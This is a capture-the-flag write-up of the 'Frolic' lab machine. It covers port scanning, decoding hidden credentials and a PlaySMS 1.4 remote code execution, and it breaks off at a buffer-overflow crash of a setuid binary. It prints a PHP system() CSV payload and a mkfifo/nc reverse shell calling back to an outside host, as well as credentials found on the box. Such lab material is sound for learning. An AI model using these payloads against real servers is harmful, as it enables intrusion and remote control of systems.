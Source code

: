 1,Recon
port scan
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-11-28T06:42:34
|_  start_date: N/A
|_clock-skew: mean: -1h50m00s, deviation: 3h10m31s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2024-11-28T12:12:34+05:30
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```

Firstly, I need to confirm a thing: this is a CTF box, not a real-box.

I would check the web-contents of the 2 web services:
```
ffuf -u http://forlic.htb:1880/FUZZ -w /usr/share/wordlists/dirb/common.txt

flows 401
icons 401
red 301
settings 401
vendor 301

ffuf -u http://forlic.htb:9999/FUZZ -w /usr/share/wordlists/dirb/common.txt
admin 301
backup 301
dev 301
test 301
/dev/backup
```
Fro the port 1880, there is nothing could be accessable, but for the other port, we can lead into `/admin`
![](images/Pasted%20image%2020241128021750.png)
When we firstly use the wrong certificate, it would pop-up a window
`You have left 2 attempt;`
So, that means there would be some fancy javascripts.
from the source page, we found 
```
<title>Crack me :|</title>
<!-- Include CSS File Here -->
<link rel="stylesheet" href="[css/style.css](view-source:http://10.10.10.111:9999/admin/css/style.css)"/>
<!-- Include JS File Here -->
<script src="[js/login.js](view-source:http://10.10.10.111:9999/admin/js/login.js)"></script>
</head>
```

Also, we can check this script
```
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```

That leads to a page `success.html`
Then we get a tricky encode text, looks like Morse Code.
PS: in this place, it was a boring decode progress, so I would not explain how to know that.
![](images/Pasted%20image%2020241128022145.png)
we can decode that in this website `https://www.splitbrain.org/_static/ook/`
And we can get the text `Nothing here check /asdiSIAJJ0QWE9JAS`
```
http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/

UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA
```
It looks like base64 encode.
Firstly, decode it and check the file archive.
`out: Zip archive data, at least v2.0 to extract, compression method=deflate`

When I want to continue compress it, it needs the password.
Then we get `password` as the password.

The ZIP contains a single index.php file, which contains a hex string.
Converting this hex to ascii results in more base64 encoded data.

```
cat index.php | xxd -r -p

KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==

```

```
cat index.php | xxd -r -p | tr -d '\r\n' | base64 -d
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```

Then continue to crack it, and we get it outputs `idkwhatispass`

Let's try this password for `Node-Red` and `playsms`
We successfully login to `playsms`

There is a public vulnerability in PlaySMS.
`PlaySMS 1.4 - 'import.php' Remote Code Execution`
By following the Poc, I would make the payload.
```
Name,Mobile,Email,Group code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,2,,,
```
`User-Agent: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f`

Hitting the import button takes me to a form where I can upload the csv. I’ll need to either use a user agent changer, or catch the request in burp and change it to the command I want to run. If I set my user agent to id, I get this:
![](images/Pasted%20image%2020241128025527.png)

Then we finally get shell
![](images/Pasted%20image%2020241128030514.png)

2, switch to valid users
From `config.php`, we get the database credits
```
$core_config['db']['type'] = 'mysqli';          // database engine
$core_config['db']['host'] = 'localhost';       // database host/server
$core_config['db']['port'] = '3306';    // database port
$core_config['db']['user'] = 'root';    // database username
$core_config['db']['pass'] = 'ayush';   // database password
$core_config['db']['name'] = 'playsms'; // database name

```
There is a `/binary` directory in the file path `/home/ayush` and we found 
There’s a setuid binary owned by root in /home/ayush/.binary:
```
-rwsr-xr-x 1 root  root  7480 Sep 25  2018 rop
```
Since this looks like an exploitation opportunity, I’ll see what’s configured. No ASLR:
`www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space
0`

When I pull the binary back, open it in gdb with PEDA, and run checksec:
```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

I can run it as well, and force it to crash:
```
root@kali# ./rop 
[*] Usage: program <message>

root@kali# ./rop $(python -c 'print "A"*10')
[+] Message sent: AAAAAAAAAA

root@kali# ./rop $(python -c 'print "A"*500')
Segmentation fault
```


